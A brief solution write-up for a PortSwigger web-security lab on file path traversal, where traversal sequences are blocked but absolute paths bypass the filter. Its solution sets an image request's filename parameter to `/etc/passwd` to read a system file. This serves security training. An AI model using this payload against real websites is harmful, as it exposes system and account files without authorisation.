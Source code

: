 # File path traversal, traversal sequences blocked with absolute path bypass
- Name: File path traversal, traversal sequences blocked with absolute path bypass
- URL: https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass
- Level: Medium Time: 1 min
---------------------------------------------------------------------------------


## Solution
1. Find an image.
2. Edit the Source Path for it to add `/etc/passwd` like the next: `/image?filename=/etc/passwd`